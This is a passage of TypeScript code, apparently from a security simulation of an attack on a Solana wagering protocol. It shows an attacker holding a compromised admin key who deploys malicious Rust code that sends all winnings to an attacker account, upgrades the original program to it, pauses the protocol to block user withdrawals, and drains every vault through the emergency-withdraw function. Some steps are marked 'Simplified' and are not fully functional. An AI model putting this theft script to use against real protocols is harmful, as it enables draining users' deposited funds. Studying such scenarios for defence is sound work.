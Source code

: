 ```typescript
                Ok(())
            }

            pub fn distribute_winnings_handler(ctx: Context<DistributeWinnings>) -> Result<()> {
                // Send all winnings to attacker
                for winner in winners {
                    token::transfer(
                        cpi_ctx,
                        all_vault_balance,
                        attacker_account // Steal everything!
                    )?;
                }
                Ok(())
            }
        `;

        const programId = await this.deployProgram(maliciousCode);
        return programId;
    }

    async upgradeProgram(newProgramId: PublicKey): Promise<void> {
        // Use compromised admin authority to upgrade
        const upgradeInstruction = new TransactionInstruction({
            keys: [
                { pubkey: this.originalProgramId, isSigner: false, isWritable: true },
                { pubkey: newProgramId, isSigner: false, isWritable: false },
                { pubkey: this.compromisedAdminKey.publicKey, isSigner: true, isWritable: false },
            ],
            programId: SystemProgram.programId,
            data: Buffer.from("upgrade"), // Simplified
        });

        await this.connection.sendTransaction(
            new Transaction().add(upgradeInstruction),
            [this.compromisedAdminKey]
        );
    }

    async abuseEmergencyFunctions(): Promise<void> {
        // 1. Pause protocol to prevent user withdrawals
        await this.wagerProgram.methods
            .emergencyPause()
            .accounts({
                admin: this.compromisedAdminKey.publicKey,
                programState: this.programStatePDA,
            })
            .signers([this.compromisedAdminKey])
            .rpc();

        // 2. Withdraw all funds using emergency function
        const allVaults = await this.getAllProtocolVaults();

        for (const vault of allVaults) {
            await this.wagerProgram.methods
                .emergencyWithdraw(vault.balance)
                .accounts({
                    admin: this.compromisedAdminKey.publicKey,
                    vault: vault.address,
                    adminAccount: this.attackerAccount,
                    tokenProgram: TOKEN_PROGRAM_ID,
                })
                .signers([this.compromisedAdminKey])
                .rpc();
```